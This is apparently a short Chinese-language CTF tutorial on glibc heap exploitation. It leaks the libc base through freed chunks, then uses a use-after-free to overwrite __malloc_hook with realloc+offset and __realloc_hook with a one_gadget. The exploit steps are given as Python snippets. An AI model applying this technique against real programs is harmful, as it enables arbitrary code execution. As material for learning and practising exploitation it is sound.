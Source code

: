 ## 原理
我们对于堆上的利用本质上还是和我们的 `free_hook` 漏洞相同，只不过在这里，我们利用了一个点，就是我们在我们的 `realloc` 函数函数当中，存在相当多的寄存器操作。于是我们就可以考虑通过我们的 `realloc` 函数去获得实现我们的 one_gadget

## 流程：
第一步：获得我们的 libc 地址：
```python
create(1,0x10)
create(2,0x10)
delete(2,0x10)
delete(1,0x10)
show(1)
libc_base=l64()-0x68-libc.sym['__malloc_hook']
```

第二步：执行我们的 UAF 攻击。
```python
create(3,0x10)
create(4,0x10)
delete(4,0x10)
delete(3,0x10)
edit(3,p64(malloc_hook)-0x23)
create(5,0x60)
create(6,0x60)
edit(6,b'\x00'*0xb+p64(ogg)+p64(realloc+k))(k需要爆破)
create(7,0x10)
```
修改 malloc_hook 为 realloc_libc 函数地址+k，修改 realloc_hook 为 one_gadget